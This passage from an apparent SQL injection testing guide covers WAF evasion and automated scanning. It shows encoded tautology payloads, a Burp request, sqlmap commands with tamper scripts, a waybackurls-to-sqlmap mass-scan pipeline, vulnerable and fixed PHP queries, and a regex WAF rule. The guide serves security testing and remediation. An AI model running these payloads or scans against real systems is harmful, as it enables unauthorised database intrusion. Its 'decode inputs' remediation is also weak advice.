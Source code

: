 **Tip**: Save database-specific evidence in a report.

### 8. Test for Detection Evasion & Obfuscation

**Objective**: Bypass WAFs or filters using evasion techniques.

**Steps**:
1. Inject obfuscated payloads:
   - Test: `%27%20OR%20%271%27=%271`
   - Use Burp:
     ```http
     GET /page?id=1%27%20OR%20%271%27=%271 HTTP/1.1
     Host: example.com
     ```
2. Use SQLMap tamper scripts:
   - Use:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --tamper=space2comment,base64encode
     ```
3. Test encoding:
   - Try: `/*comment*/' OR '1'='1`, `' oR '1'='1`.
4. Monitor WAF logs:
   - Use regex to detect blocked payloads.

**Example Vulnerable Code (PHP)**:
```php
$result = mysqli_query($conn, "SELECT * FROM users WHERE id = '$_GET[id]'");
```
Test: `?id=1%27%20OR%20%271%27=%271`
Result: Bypasses WAF.

**Example Secure Code (PHP)**:
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
```
Test: No bypass.

**Remediation**:
- Decode inputs:
  ```php
  $id = urldecode($_GET['id']);
  ```
- Use WAF rules:
  ```nginx
  if ($args ~* "union.*select") { return 403; }
  ```

**Tip**: Save evasion evidence in a report.

### 9. Test for Automation and Scripting

**Objective**: Automate SQL injection detection across multiple endpoints.

**Steps**:
1. Collect URLs:
   - Use:
     ```bash
     waybackurls example.com | grep -E "id=|query=" > urls.txt
     ```
2. Test with SQLMap:
   - Use:
     ```bash
     sqlmap -m urls.txt --batch --dbs
     ```
3. Use Burp extensions:
   - Install SQLiPy or ActiveScan++.
   - Run Active Scan on crawled site.